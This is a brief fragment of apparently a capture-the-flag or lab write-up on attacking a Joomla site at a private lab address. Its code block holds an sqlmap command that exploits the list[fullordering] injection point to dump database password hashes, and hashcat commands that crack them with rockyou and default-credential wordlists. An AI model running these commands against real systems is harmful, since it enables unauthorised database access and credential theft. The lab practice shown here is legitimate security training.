 ![osshelltry](assets/markdown-img-paste-20210830052446183.png)

Maybe try guessing writeable folders later.

```
sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -p list[fullordering] --random-agent --passwords

hashcat -a 0 -m 300 creds/sqlhash sl/Passwords/Leaked-Databases/rockyou.txt
hashcat -a 0 -m 300 creds/sqlhash sl/Passwords/Default-Credentials/mysql-betterdefaultpasswords.txt
```

